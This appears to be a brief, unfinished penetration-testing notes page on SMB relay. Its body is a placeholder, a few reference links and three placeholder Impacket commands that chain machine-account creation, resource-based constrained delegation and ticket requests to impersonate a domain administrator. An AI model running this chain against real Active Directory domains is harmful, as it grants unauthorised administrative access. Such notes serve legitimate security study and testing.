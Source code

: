 # SMB Relay

TODO: Fill this info

https://www.thehacker.recipes/a-d/movement/ntlm/relay

https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022

```
$ addcomputer.py -computer-name "<computer_name>$" -computer-pass "<password>" -dc-ip <domain_controller_IP> <domain>/<username>:<password>

$ rbcd.py -delegate-from "<computer_name>$" -delegate-to "<target_computer_name>$" -dc-ip <domain_controller_IP> -action 'write' <domain>/<username>:<password>

$ getST.py -spn 'cifs/<FQDN>' -impersonate '<target_domain_admin_user>' -dc-ip <domain_controller_IP> <domain>/<username>:<password>
```

https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/kerberos/delegation-abuse/rbcd